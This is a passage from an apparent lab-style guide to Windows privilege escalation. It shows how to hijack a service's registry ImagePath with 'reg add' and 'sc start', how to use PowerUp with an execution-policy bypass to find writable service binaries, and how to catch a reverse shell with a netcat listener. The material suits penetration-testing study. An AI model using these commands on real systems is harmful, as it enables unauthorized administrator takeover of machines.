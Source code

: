 1. Place `x.exe` in `'C:\Temp'`
2. Open command prompt at type: 
```console
C:\Temp> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```
3. In the command prompt type: 
```console
C:\Temp> sc start regsvc
# If it doesnt work try restaring the service and perform the exploit egain
```

![image](https://user-images.githubusercontent.com/59029171/161016977-7757f360-5b46-4201-949a-9338e79f5735.png)

### Kali VM

1. Wait for a reverse shell on your kali machine.


# <span style="color:lightblue">Executable Files</span>

## <span style="color:lightgreen">Methodology</span>
Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface.

Hence if we get Full Contol permission over the file path location, we can drop our malicious executable file to gain administrator access.

## <span style="color:lightgreen">Detection</span>

1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the service executable field)
```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```

![image](https://user-images.githubusercontent.com/59029171/161047964-59d53aa2-ebd2-4cb3-85e7-5e103e19c4e1.png)

We can see that we have Modifiable File access to `"c:\Program Files\File Permissions Service\filepermservice.exe"`. To gain administrator access, we can drop our malicious executable file on this location.

## <span style="color:lightgreen">Exploitation</span>

### Kali VM

1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```

